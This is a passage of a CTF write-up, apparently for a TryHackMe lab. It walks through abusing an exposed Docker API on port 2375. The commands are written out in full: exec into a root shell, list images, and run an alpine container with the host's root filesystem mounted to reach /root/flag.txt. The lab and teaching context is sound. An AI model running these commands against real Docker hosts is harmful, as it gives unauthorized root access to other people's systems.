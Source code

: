 **The `frontend` container looks promising!**

**Let's spawn an interactive bash shell on the container:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 exec -it 49fe455a9681 bash
root@docker-escape:/# whoami;hostname;id
root
docker-escape
uid=0(root) gid=0(root) groups=0(root)
```

I'm `root` in this `docker-escape` container!

```
root@docker-escape:/# ls -lah /root
total 16K
drwx------ 2 root root 4.0K Dec  9  2020 .
drwxr-xr-x 1 root root 4.0K Jan  7  2021 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
```

But nothing in `/root`...

**Then, let's enumerate what images are there!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 image ls                                                    
REPOSITORY                                    TAG       IMAGE ID       CREATED         SIZE
exif-api-dev                                  latest    4084cb55e1c7   21 months ago   214MB
exif-api                                      latest    923c5821b907   21 months ago   163MB
frontend                                      latest    577f9da1362e   21 months ago   138MB
endlessh                                      latest    7bde5182dc5e   21 months ago   5.67MB
nginx                                         latest    ae2feff98a0c   22 months ago   133MB
debian                                        10-slim   4a9cd57610d6   22 months ago   69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3       7331d26c1fdf   22 months ago   103MB
alpine                                        3.9       78a2ce922f86   2 years ago     5.55MB
```

**The `alpine` image looks interesting!**

**Let's fire up the `alpine` container and mount the `/` directory on the container to our `/mnt/share` on our attacker machine!**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# mkdir /mnt/share

┌──(root🌸siunam)-[~/ctf/thm/ctf/The-Great-Escape]
└─# docker -H $RHOSTS:2375 run --rm -it -v /:/mnt/share alpine:3.9
```

```
/ # ls -lah /mnt/share/root/
total 24
drwx------    3 root     root        4.0K Jan  6  2021 .
drwxr-xr-x   22 root     root        4.0K Jan  9  2021 ..
lrwxrwxrwx    1 root     root           9 Jan  6  2021 .bash_history -> /dev/null
-rw-r-----    1 root     root        3.0K Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root        4.0K Jan  6  2021 .local
-rw-r-----    1 root     root         148 Aug 17  2015 .profile
-rw-------    1 root     root          74 Jan  6  2021 flag.txt
```
